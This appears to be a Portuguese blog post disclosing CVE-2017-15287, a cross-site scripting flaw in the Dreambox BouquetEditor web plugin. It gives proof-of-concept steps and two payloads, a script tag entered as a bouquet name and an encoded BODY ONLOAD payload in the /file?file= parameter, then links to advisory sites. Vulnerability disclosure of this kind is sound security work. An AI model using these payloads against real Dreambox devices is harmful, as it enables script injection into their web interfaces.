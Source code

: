 ```yaml
---
title: "[CVE-2017-15287] Vulnerability XSS - Dreambox"
date: 2017-10-13 04:45:59 Z
categories:
- cve
layout: post
description: 'Vulnerabilty: Cross-site scripting (XSS) in plugin BouquetEditor'
---
```


Prova de Conceito (Proof of Concept - PoC), que virou o [CVE-2017-15287](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-15287){:target="_blank" rel="noopenner noreferrer"} por Thiago "THX".

### Sobre o Software:

O Dreambox é um produto da Dream-Multimedia-TV (DMM), que é desenvolvido por receptores baseados em Linux sob o nome Dreambox.

### As vulnerabilidades:

#### Vulnerabilidade 1

O XSS está presente em duas áreas, sendo que na primeira área a vulnerabilidade se encontra em um WebPlugin chamado "BouquetEditor":

```
URL: http://IP:PORT/bouqueteditor/
```

Passos:

1. Na aba Bouquets, ira adicionar uma nova bouquet

![Passo 1]({{ site.url }}/assets/images/posts/xxs/1.png)

2. Assim, irar colocar o script:

```
(<script>alert('XSS')</script>)
```

![Passo 2]({{ site.url }}/assets/images/posts/xxs/2.png)

3. Vulnerability XSS

![Passo 3]({{ site.url }}/assets/images/posts/xxs/3.png)

#### Vulnerabilidade 2

A segunda falha consiste em colocar a variavel abaixo depois da url (http://IP:PORT)

```
Variavel :/file?file=%3CBODY%20ONLOAD=alert(%27XSS%27)%3E
```

![XSS via endereço]({{ site.url }}/assets/images/posts/xxs/4.png)

### Compartilhamentos:

Sites que já compatilharam o CVE:

[0day](https://fr.0day.today/exploit/description/28784){:target="_blank" rel="noopenner noreferrer"}

[CERTSI](https://www.certsi.es/alerta-temprana/vulnerabilidades/cve-2017-15287){:target="_blank" rel="noopenner noreferrer"}

[CXSecurity](https://cxsecurity.com/issue/WLB-2017100103){:target="_blank" rel="noopenner noreferrer"}

[Exploit Database](https://www.exploit-db.com/exploits/42986/){:target="_blank" rel="noopenner noreferrer"}

[Exploit Kitploit](http://exploit.kitploit.com/2017/10/dreambox-plugin-bouqueteditor-cross.html){:target="_blank" rel="noopenner noreferrer"}

[HackerTor](https://hackertor.com/2017/10/12/na-cve-2017-15287-there-is-xss-in-the-bouqueteditor-webplugin-for/){:target="_blank" rel="noopenner noreferrer"}

[NVD](https://nvd.nist.gov/vuln/detail/CVE-2017-15287){:target="_blank" rel="noopenner noreferrer"}

[PacketStorm](https://packetstormsecurity.com/files/144604/dreambox200be-xss.txt){:target="_blank" rel="noopenner noreferrer"}

[Security Database](https://www.security-database.com/detail.php?alert=CVE-2017-15287&utm_source=feedburner&utm_medium=feed&utm_campaign=Feed:+Last100Alerts+(Security-Database+Alerts+Monitor+:+Last+100+Alerts)){:target="_blank" rel="noopenner noreferrer"}

[SecNews24](https://www.secnews24.com/2017/10/12/cve-2017-15287-there-is-xss-in-the-bouqueteditor-webplugin-for-dream-multimedia-dreambox-devices-as-demo/){:target="_blank" rel="noopenner noreferrer"}

[TSecurity](https://tsecurity.de/de/215878/Reversing-Engineering/Exploits/Dream-Multimedia-Dreambox-/file-Cross-Site-Scripting/){:target="_blank" rel="noopenner noreferrer"}

[VulDB](https://vuldb.com/fr/?id.107825){:target="_blank" rel="noopenner noreferrer"}
